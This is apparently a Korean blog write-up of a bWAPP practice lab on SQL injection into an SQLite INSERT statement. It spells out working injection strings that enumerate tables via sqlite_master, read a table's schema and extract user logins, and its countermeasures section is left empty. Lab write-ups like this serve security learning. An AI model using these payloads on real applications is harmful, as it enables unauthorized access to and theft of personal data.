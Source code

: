```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Injection - Stored

공격자가 서버(게시판)에 태그/스크립트를 저장시켜, 클라이언트가 게시판을 읽을 경우 태그/스크립트가 실행되는 방식.

이로 인해 쿠키 정보 탈취, 악성 코드 유입, 랜섬웨어 등의 피해로 이어질 수 있음.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316230246276](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230246276.png)

- Stored(Blog)와 똑같음

![image-20220316230425645](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230425645.png)

- 작은 따옴표 하나 넣어봤더니 아무것도 안뜸

![image-20220316230452499](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230452499.png)

- 두개 넣었더니 하나 뜸

![image-20220316230524693](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316230524693.png)

- 세개 넣으니 안뜸
- 즉, SQL 구문에 의해 ENTRY 구간이 작은 따옴표 하나로 열려있음을 알 수 있음
- 다시 유추해보면

`insert into tbl_name('#', 'Date', 'Entry', 'Owner')`

- 다음과 같이 형성 되어있을거라 판단
- 이제 저 Entry에 SQLite문을 삽입해보자.

`test', (select tbl_name from sqlite_master limit 0,1))--`

- test로 엔트리에 입력해주고 작은따옴표 닫아준 후 콤마를 찍어줘서 엔트리 조건을 충족시켜준 후에
- 바로 괄호를 열고 우리가 원하는 select 문을 삽입해준다.
- 그러고 괄호를 닫아주고 insert into tbl_name의 괄호도 충족시키기위해 하나 더 닫아주고
- 뒤에는 날려버릴거기에 주석으로 처리해준다

`insert into tbl_name('#', 'Date', 'test', (select tbl_name from sqlite_master limit 0,1))--', 'Owner')`

- 최종적으로는 이렇게 나올것이다.

<br>

### 테이블 조회

![image-20220316231214009](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231214009.png)

`a', (select tbl_name from sqlite_master limit 6,1))--`

- 이런식으로 limit를 활용해서 조회해보자
  -  limit n,m ->  n번째의 m개만 출력이라는 뜻

<br>

### 컬럼 조회

![image-20220316231341229](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231341229.png)

`a', (select sql from sqlite_master where tbl_name='heroes' limit 0,1))--`

<br>

### 결과 

![image-20220316231448404](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316231448404.png)

`a', (select login from heroes limit 0,1))--`

- 성공적으로 개인정보 탈취

<br>

<br>

## 대응방안



